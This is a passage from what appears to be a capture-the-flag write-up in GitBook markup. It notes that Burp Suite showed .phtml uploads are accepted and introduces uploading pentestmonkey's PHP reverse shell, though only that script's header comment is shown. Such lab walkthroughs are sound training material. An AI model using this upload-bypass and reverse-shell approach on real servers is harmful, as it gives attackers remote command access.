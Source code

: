 {% tab title="Grep - Extract" %}
![](../../../../.gitbook/assets/image%20%2818%29.png)
{% endtab %}

{% tab title="Intruder Attack" %}
![](../../../../.gitbook/assets/image%20%2816%29.png)
{% endtab %}
{% endtabs %}

{% hint style="success" %}
**Burpsuite showed** `.phtml` **files are allowed to upload.** 

Let's upload a PHP rev-shell to **find our flag!**
{% endhint %}

{% tabs %}
{% tab title="rev-shell.phtml" %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
```